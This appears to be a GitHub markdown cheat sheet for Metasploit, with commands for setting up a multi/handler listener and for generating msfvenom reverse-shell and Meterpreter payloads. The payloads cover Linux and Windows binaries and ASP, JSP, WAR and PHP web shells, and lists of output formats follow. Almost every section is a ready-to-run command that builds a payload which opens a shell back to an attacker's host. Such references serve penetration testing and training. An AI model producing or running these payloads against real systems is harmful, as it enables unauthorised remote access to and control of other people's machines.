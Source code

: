 [Metasploit Commands](#metasploit-commands)  
[msfvenom payload shorcuts](#msfvenom-payload-shorcuts)  
[msfvenom output formats](#msfvenom-output-formats)  

## Metasploit Commands

#### Configure multi/handler
```
use multi/handler
set PAYLOAD = <payload> (meterpreter is default)
set LHOST <listening ip>
set LPORT <lisenting port>

run -j (runs the listener in the background)

Once a session is established...
sessions <session number> 
```
#### Meterpreter
`bg` puts the current meterpreter session in the background.  Use sessions to reconnect.

###
## msfvenom payload shorcuts

Staged payloads are denoted with a foward slash (/)
```
# windows/shell/reverse_tcp = staged
# windows/shell_reverse_tcp = stageless
```

### To view payload options
```
msfvenom -p <payload> --list-options
```

### Non-Meterpreter Binaries
Stageless Payloads for Linux
```
x86	msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

Stageless Payloads for Windows
```
x86	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

Staged Payloads for Windows
```
x86	msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

Staged Payloads for Linux
```
x86	msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

Non-Meterpreter Web Payloads
```
asp	msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
jsp	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
war	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
php	msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
### Meterpreter Binaries
Staged Payloads for Windows
```
x86	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```
Stageless Payloads for Windows
```
x86	msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```
Staged Payloads for Linux
```
x86	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```
Stageless Payloads for Linux
```
x86	msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```
*sourced from https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/*  
---


## msfvenom output formats
```
msfvenom --list formats
```

### Framework Executable Formats [--format <value>]
===============================================

    Name
    ----
    asp
    aspx
    aspx-exe
    axis2
    dll
    elf
    elf-so
    exe
    exe-only
    exe-service
    exe-small
    hta-psh
    jar
    jsp
    loop-vbs
    macho
    msi
    msi-nouac
    osx-app
    psh
    psh-cmd
    psh-net
    psh-reflection
    python-reflection
    vba
    vba-exe
    vba-psh
    vbs
    war

### Framework Transform Formats [--format <value>]
==============================================

    Name
    ----
    base32
    base64
    bash
    c
    csharp
    dw
    dword
    hex
    java
    js_be
    js_le
    num
    perl
    pl
    powershell
    ps1
    py
    python
    raw
    rb
    ruby
    sh
    vbapplication
    vbscript
